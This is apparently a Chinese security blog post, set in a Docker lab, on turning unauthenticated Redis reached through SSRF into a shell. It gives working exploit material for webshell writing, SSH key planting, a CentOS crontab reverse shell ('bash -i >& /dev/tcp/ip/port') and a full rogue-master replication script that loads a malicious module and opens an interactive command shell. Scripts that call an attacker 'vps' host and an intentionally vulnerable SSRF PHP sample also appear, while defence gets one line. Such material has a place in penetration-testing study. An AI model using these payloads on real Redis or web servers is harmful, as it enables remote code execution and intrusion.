


Redis是常见的内网服务，因其默认配置未授权访问或使用弱口令认证，可以导致getshell。这篇文章通过实验的方式介绍了四种内网Redis Getshell的方式。
经过总结，目前网上对于Redis常见的getshell方式有以下几种:
绝对路径写Webshell 写入ssh公钥 写crontab计划任务反弹shell(针对CentOS) 主从复制(4.0 < Redis)
这篇文章通过实验依次介绍几种方法的使用以及一些脚本，脚本以及此次实验的环境都放在了github 。
介绍 首先介绍一下Redis以及此次实验的相关配置。
Redis介绍 Redis常用命令有以下几个:
1 2 3 4 5 6 7 8 info 查看信息 flushall 删除数据库所有内容 flushdb 刷新数据库 keys * 查看所有键 set key value 设置变量 config set dir dirpath 设置路径 config set dbfilename 设置文件名 save 保存
环境配置
docker
centos7.0 + Redis5.0
Python3.6.0
php代码放置在docker启动的web服务器上，是一个未经任何防御的SSRF的php代码。如下所示:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php if (isset ($_GET['url' ])){ $link = $_GET['url' ]; $curlobj = curl_init(); curl_setopt($curlobj, CURLOPT_POST,0 ); curl_setopt($curlobj, CURLOPT_URL,$link); curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1 ); curl_setopt($curlobj, CURLOPT_FOLLOWLOCATION, 1 ); $result=curl_exec($curlobj); echo $result; curl_close($curlobj); } ?>
Redis在另一个镜像中，将Redis绑定在0.0.0.0，因此在宿主机访问curl -v dict://127.0.0.1:6379/info可以成功。但对于docker里的web服务器，docker.for.mac.host.internal为能访问宿主机的地址。即docker.for.mac.host.internal:6379来表示访问内网中的Redis。
实验 基于前面搭建的环境，对这几种利用方式进行了复现。
1. 绝对路径写webshell 绝对路径写webshell的方法利用Redis的写权限向web目录中写入webshell，然后通过webshell来getshell。绝对路径写webshell的方法适用于以下场景:
开启了web服务
Redis具有对web路径的写权限
知道web目录物理路径
以写入php语言的webshell为例，需要在redis中执行以下命令以达到写入webshell的目的。
1 2 3 4 5 flushall set 1 '<?php eval($_GET["cmd"])';?>' config set dir /var/www/html config set dbfilename shell.php save
在内网中最常用两种协议dict://与gopher://。其中dict://需要一步步地执行redis getshell的exp，而gopher协议只需要一个url请求即可。在这里使用gopher协议来进行利用。
Redis服务器与客户端通过RESP协议通信，在利用gopher协议时，需要将需要执行的命令转化为redis RESP协议的格式。这里参考了网上的一个脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 from urllib.parse import quoteprotocol = "gopher://" ip = "docker.for.mac.host.internal" port = "6379" shell = "\n\n<?php system($_GET[" cmd"]);?>\n\n" filename = "shell.php" path = "/var/www/html" passwd = "" cmd = [ "flushall" , "set 1 {}" .format(shell.replace(" " ,"${IFS}" )), "config set dir {}" .format(path), "config set dbfilename {}" .format(filename), "save" ] if passwd: cmd.insert(0 ,"AUTH {}" .format(passwd)) payload = protocol+ip+":" +port+"/_" def redis_format (arr) : CRLF = "\r\n" redis_arr = arr.split(" " ) cmd = "" cmd += "*" +str(len(redis_arr)) for x in redis_arr: cmd += CRLF+"$" +str(len((x.replace("${IFS}" ," " ))))+CRLF+x.replace("${IFS}" ," " ) cmd += CRLF return cmd if __name__ == "__main__" : for x in cmd: payload += quote(redis_format(x)) print(payload)
运行的结果如下所示:

此payload需放在浏览器中作为get请求的url的参数值，它需要进行一次url编码。即最后的payload为http://127.0.0.1:7777/index.php?url=gopher.....
在redis中可以看到执行成功。接下来访问http://127.0.0.1/shell.php?cmd=command即可。

2. 写ssh公钥免密登录 写ssh公钥的方法利用的是ssh中提供可利用私钥登录的方式，将公钥写入特定目录下，导致攻击者可以私钥直接登录。写ssh公钥的方法适用于以下场景:
开启了ssh服务，且允许免密登录
需要root权限启动redis
允许免密登录的配置在etc/sshd/sshd_config
1 2 3 4 RSAAuthentication yes PubkeyAuthentication yes AuthorizedKeysFile .ssh/authorized_keys .ssh/authorized_keys2
整个过程分为3步: 1) 生成key pair; 2) 写入ssh key; 3）登录。
生成key pair 在本地生成公私钥对，进入~/.ssh，执行ssh-keygen -t rsa命令，输入生成的文件名authorized_keys。
写入ssh key 写入ssh key的方式与写入webshell一样，只是改变了写入的目录以及写入的内容。redis运行在什么用户，就能直接以此用户身份进行登录。一般是些写入/root/.ssh目录，也可以写入用户目录，不过需要多一步猜测用户目录。若目录不存在，可利用crontab创建目录，这一方式在下面会介绍到。写入ssh key需要在redis中执行以下命令:
1 2 3 4 5 flushall set 1 'ssh-rsa xxx...xxx' config set dir /root/.ssh/ config set dbfilename authorized_keys save
同理，可用gopher可以完成此次利用。
0x03 写crontab计划反弹shell 写crontab计划的方式适用于以下场景:
系统为Centos。
root权限启动redis。
此方法只能在CentOs上使用，Ubuntu上行不通主要有2点原因。1) 默认Redis写文件后是644的权限，但是Ubuntu要求执行定时任务/var/spool/cron/ceontabs/<username>的权限必须是600，才会执行，而CentOS的定时任务/var/spool/cron/<username>权限644也能执行。2) Redis保存RDB会存在乱码，在Ubuntu上会报错，而在CentOS上不会报错。
执行的命令如下:
1 2 3 4 5 flushall set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/ip/port 0>&1\n\n' config set dir /var/spool/cron/ config set dbfilename root save
前面介绍了使用gopher协议生成payload，此方法也可以使用。但是这里介绍了使用dict://协议来进行利用。这里介绍另一个经典脚本，需要302.php以及shell.php放置在vps上。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 import requestshost = '127.0.0.1' port = '6379' vul_httpurl = "http://127.0.0.1:7777/index.php?url=" _location = "http://vps:7777/302.php" shell_location = "http://vps:7777/shell.php" scheme = "dict" ip = "docker.for.mac.host.internal" port = 6379 bhost = "vps" bport = 2333 _payload = '?scheme={scheme}%26ip={ip}%26port={port}%26data=flushall' .format( scheme = scheme, ip = ip, port = port ) exp_uri = '{vul_httpurl}{location}{payload}' .format( vul_httpurl = vul_httpurl, location = _location, payload = _payload ) print(exp_uri) print(len(requests.get(exp_uri).text)) _payload = '?scheme={scheme}%26ip={ip}%26port={port}%26bhost={bhost}%26bport={bport}' .format( scheme = scheme, ip = ip, port = port, bhost = bhost, bport = bport ) exp_uri = '{vul_httpurl}{shell_location}{payload}' .format( vul_httpurl = vul_httpurl, shell_location = shell_location, payload = _payload ) print(exp_uri) print(requests.get(exp_uri).text) _payload = '?scheme={scheme}%26ip={ip}%26port={port}%26data=config:set:dir:/var/spool/cron' .format( scheme = scheme, ip = ip, port = port ) exp_uri = '{vul_httpurl}{location}{payload}' .format( vul_httpurl = vul_httpurl, location = _location, payload = _payload ) print(exp_uri) print(requests.get(exp_uri).text) _payload = '?scheme={scheme}%26ip={ip}%26port={port}%26data=config:set:dbfilename:root' .format( scheme = scheme, ip = ip, port = port ) exp_uri = '{vul_httpurl}{location}{payload}' .format( vul_httpurl = vul_httpurl, location = _location, payload = _payload ) print(exp_uri) print(requests.get(exp_uri).text) _payload = '?scheme={scheme}%26ip={ip}%26port={port}%26data=save' .format( scheme = scheme, ip = ip, port = port ) exp_uri = '{vul_httpurl}{location}{payload}' .format( vul_httpurl = vul_httpurl, location = _location, payload = _payload ) print(exp_uri) print(requests.get(exp_uri).text)
运行这个脚本并在vps上监听2333端口，等一小会儿就能看到反弹shell的连接。
注意: 当curl设置了仅允许HTTP/HTTPS，且允许302跳转的情况下，可利用302跳转进行绕过。
4. 主从复制 主从复制这一利用方式是由LC/BC战队队员Pavel Toporkov在zeronights 2018上提出的，PPT 。它主要是利用主节点向从节点同步数据时发送恶意RDB文件来实现getshell的。主从复制的RCE适用于以下场景:
整个的步骤分为4步。
1）将目标redis设置为slave
建立主从关系只需要在从节点操作即可，主节点不用任何操作。在这条命令执行以后，就会向主节点发送请求同步内容。解除主从关系可以执行slaveof no one
2）设置redis的数据库文件
1 2 config set dir /tmp config set dbfilename exp.so
在这里最好将当前目录设置为/tmp目录这样的，提高容错率。
3) 从master接收module MODULE LOAD命令加载到Redis中。恶意的so文件可参考RedisModulesSDK
在这个过程当中，利用全量复制将master上的RDB文件同步到slave上，从而加载恶意so文件达到RCE的目的。因此，需要以master的身份向slave传输so文件，在弄清楚他们之间流程后，便可伪造一个假的redis服务器。
1 2 3 4 5 6 7 master <------ PING <----- slave master ------> +PONG -----> slave master <--- REPLCONF <----- slave master -------> +OK -----> slave master <--- REPLCONF <----- slave master -------> +OK -----> slave master <------ PSYNC <----- slave
对于我们而言，我们只需要关注在收到slave的请求后，如何回应它，以及在收到PSYNC后发送恶意的so文件。提出该方式的作者编写了一个脚本来发送exp.so文件数据。这里使用了网上的一个脚本。
redis_slave.py
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 import socketimport timeCRLF = "\r\n" payload = open("exp.so" ,"rb" ).read() exp_filename = "exp.so" def redis_format (arr) : global CRLF global payload redis_arr = arr.split(" " ) cmd = "" cmd += "*" +str(len(redis_arr)) for x in redis_arr: cmd += CRLF+"$" +str(len(x))+CRLF+x cmd += CRLF return cmd def redis_connect (shost,sport) : sock = socket.socket() sock.connect((shost,sport)) return sock def send (sock,cmd) : sock.send(redis_format(cmd).encode()) print(sock.recv(1024 ).decode("utf-8" )) def interact_shell (sock) : flag = True try : while flag: shell = input("\033[1;32;40m[*]\033[0m " ) shell = shell.replace(" " ,"${IFS}" ) if shell == "exit" or shell == "quit" : flag = False else : send(sock,"system.exec {}" .format(shell)) except KeyboardInterrupt: return def RogueServer (mport) : global CRLF global payload flag = True result = "" sock = socket.socket() sock.bind(("0.0.0.0" , mport)) sock.listen(10 ) clientSock, address = sock.accept() while flag: data = clientSock.recv(1024 ).decode("utf-8" ) if "PING" in data: result = "+PONG" +CRLF clientSock.send(result.encode()) flag = True elif "REPLCONF" in data: result = "+OK" +CRLF clientSock.send(result.encode()) flag = True elif "PSYNC" in data or "SYNC" in data: result = "+FULLRESYNC " +"a" *40 +" 1" +CRLF result += "$" +str(len(payload))+CRLF result = result.encode() result += payload result += CRLF.encode() clientSock.send(result) flag = False if __name__ == "__main__" : mhost = "docker.for.mac.host.internal" mport = 6380 shost = "127.0.0.1" sport = 6379 passwd = "" redis_sock = redis_connect(shost,sport) if passwd: send(redis_sock,"AUTH {}" .format(passwd)) send(redis_sock,"SLAVEOF {} {}" .format(mhost,mport)) send(redis_sock,"config set dbfilename {}" .format(exp_filename)) time.sleep(2 ) RogueServer(mport) send(redis_sock,"MODULE LOAD ./{}" .format(exp_filename)) interact_shell(redis_sock)
在SSRF的场景中，只能通过url请求访问到内网Redis的情况下，不能直接使用脚本，而是将其中的1）2）4）命令配合其他协议执行，然后在vps上启动Redis_Rogue_Server.py。
在这个过程中master一定要回复全量复制。因为增量复制时，slave向master发送的runid和offset对应的情况下，会进行数据同步，但不会传输RDB文件。
4）加载模块
在加载模块结束后，执行system.exec command即可执行任意命令。
防御
在不影响业务的情况下，仅允许HTTP/HTTPS协议，且禁止302跳转。
参考